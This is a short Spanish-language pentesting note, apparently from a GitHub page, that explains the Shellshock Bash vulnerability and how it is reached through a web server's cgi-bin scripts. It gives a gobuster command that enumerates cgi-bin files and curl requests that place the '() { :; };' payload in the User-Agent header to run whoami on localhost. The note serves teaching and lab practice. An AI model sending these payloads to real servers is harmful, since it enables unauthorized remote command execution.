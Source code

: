 -- - 
Un ataque Shellshock es un tipo de ataque informático que aprovecha una vulnerabilidad en el intérprete de comandos Bash en sistemas operativos basados en Unix y Linux. Esta vulnerabilidad se descubrió en 2014 y se considera uno de los ataques más grandes y generalizados en la historia de la informática.

Esta vulnerabilidad en Bash permite a los atacantes ejecutar comandos maliciosos en el sistema afectado, lo que les permite tomar el control del sistema y acceder a información confidencial, modificar archivos, instalar programas maliciosos, etc.

La vulnerabilidad Shellshock se produce en el intérprete de comandos Bash, que es utilizado por muchos sistemas operativos Unix y Linux para ejecutar scripts de shell. El problema radica en la forma en que Bash maneja las variables de entorno. Los atacantes pueden inyectar código malicioso en estas variables de entorno, las cuales Bash ejecuta sin cuestionar su origen o contenido.

Los atacantes pueden explotar esta vulnerabilidad a través de diferentes vectores de ataque. Uno de ellos es a través del User-Agent, que es la información que el navegador web envía al servidor web para identificar el tipo de navegador y sistema operativo que se está utilizando. Los atacantes pueden manipular el User-Agent para incluir comandos maliciosos, que el servidor web ejecutará al recibir la solicitud.

Por lo general siempre es factible intentar el Shell Shock Attack si encontramos el directorio cgi-bin.
-- -
Una vez encontrado el directorio cgi-bin, lo ideal es enumerar archivos con extensiones; pl,sh,cgi.
```bash
gobuster dir -u http://localhost/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x pl,sh,cgi -v
```
 
 Luego de haber encontrado un archivo dentro de ese directorio podemos proceder a intentar ejecutar comando con el uso de curl mediante el User-Agent
 ```bash
curl -s http://localhost/cgi-bin/status -H "User-Agent: () { :; }; /usr/bin/whoami"
curl -s http://localhost/cgi-bin/status -H "User-Agent: () { :; }; echo; /usr/bin/whoami" ---> Si no reporta nada el comando anterior le metemos un echo antes
```
-- - 
